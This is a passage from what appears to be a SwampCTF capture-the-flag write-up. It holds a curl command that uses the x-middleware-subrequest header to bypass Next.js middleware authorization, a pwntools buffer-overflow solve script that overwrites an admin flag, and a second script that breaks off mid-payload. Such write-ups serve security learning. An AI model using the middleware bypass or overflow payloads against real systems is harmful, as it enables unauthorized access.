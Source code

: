 - IT The RECENT NEXT.JS VULNERABILITY!!!!
- ```curl -H "x-middleware-subrequest: middleware" http://chals.swampctf.com:43611/api/protected/flag```
      
--------------------------------


### PWN:

### Challenge: Beginner Pwn 1
![image](https://github.com/user-attachments/assets/708c2055-022e-4c34-a702-e39f67354b5a)

- Solve script
```python
from pwn import *

# Set up connection to the challenge server
HOST = "chals.swampctf.com"
PORT = 40004

# Buffer overflow payload
payload = b"A" * 10 + b"\x01\x00\x00\x00"  # Overwrite is_admin to 1 (true)

# Start interaction
p = remote(HOST, PORT)
p.recvuntil(b"please enter your name: ")
p.sendline(payload)

# Read output to check if admin
print(p.recv().decode())

# Send "y" to print flag
p.sendline(b"y")

# Receive and print flag
print(p.recvall().decode())

# Close connection
p.close()
```
- flag: swampCTF{n0t_@11_5t@ck5_gr0w_d0wn}

### Challenge: Beginner Pwn 2
![image](https://github.com/user-attachments/assets/cc125998-d69a-423d-b5e8-3bdd7eebf32e)

- Solve Script
```#!/usr/bin/env python3
from pwn import *

# Set up the target
HOST = 'chals.swampctf.com'
PORT = 40001

# Decide whether to run locally or remotely
local = False
if local:
    p = process('./binary')
else:
    p = remote(HOST, PORT)

# Address of the win function
win_addr = 0x401186  # The address of the win function from the disassembly

# Crafting the payload
```